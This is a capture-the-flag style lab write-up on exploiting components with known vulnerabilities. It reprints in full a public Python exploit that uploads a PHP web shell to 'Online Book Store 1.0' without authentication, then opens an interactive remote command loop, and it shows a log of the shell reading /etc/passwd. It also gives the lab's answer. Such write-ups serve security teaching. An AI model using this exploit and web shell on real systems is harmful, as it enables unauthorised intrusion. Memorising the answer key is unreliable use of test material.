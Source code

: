 # Components with Known Vulnerabilities

**Date:** 03, January, 2021

**Author:** Dhilip Sanjay S

---

- Company/Entity that you're pen-testing is using a program that already has a well documented vulnerability.
- For example, a company hasn't updated their version of Wordpress for a few years - you can used tools like **wpscan** to find its version.
- You can even find better exploit for RCE on [Exploit-db](https://www.exploit-db.com/exploits/41962).

## Solutions

### How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
- **Answer:** 1611
- **Steps to Reproduce:** 
    - Find an exploit for the book store application.
    - Search for `book store` in exploit-db. Look for `Remote Code Execution`.
    - Execute the payload as instructed.
    - [Online Bookstore - Unauthenticated RCE](https://www.exploit-db.com/exploits/47887)
    - Exploit code:
    ```python
    # Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
    # Google Dork: N/A
    # Date: 2020-01-07
    # Exploit Author: Tib3rius
    # Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
    # Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
    # Version: 1.0
    # Tested on: Ubuntu 16.04
    # CVE: N/A

    import argparse
    import random
    import requests
    import string
    import sys

    parser = argparse.ArgumentParser()
    parser.add_argument('url', action='store', help='The URL of the target.')
    args = parser.parse_args()

    url = args.url.rstrip('/')
    random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

    payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

    file = {'image': (random_file + '.php', payload, 'text/php')}
    print('> Attempting to upload PHP web shell...')
    r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
    print('> Verifying shell upload...')
    r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

    if random_file in r.text:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
        print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
        launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
        if launch_shell.lower() == 'y':
            while True:
                cmd = str(input('RCE $ '))
                if cmd == 'exit':
                    sys.exit(0)
                r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
                print(r.text)
    else:
        if r.status_code == 200:
            print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
        else:
            print('> Web shell failed to upload! The web server may not have write permissions.')
            
    ```
    
    - Execution of the exploit code:
    ```bash
    root@kali: python3 bookstore-rce.py http://<MACHINE_IP>
    > Attempting to upload PHP web shell...
    > Verifying shell upload...
    > Web shell uploaded to http://<MACHINE_IP>/bootstrap/img/NnwsQGewOj.php
    > Example command usage: http://<MACHINE_IP>/bootstrap/img/NnwsQGewOj.php?cmd=whoami
    > Do you wish to launch a shell here? (y/n): y

    RCE $ wc -c /etc/passwd
    1611 /etc/passwd
    ```

---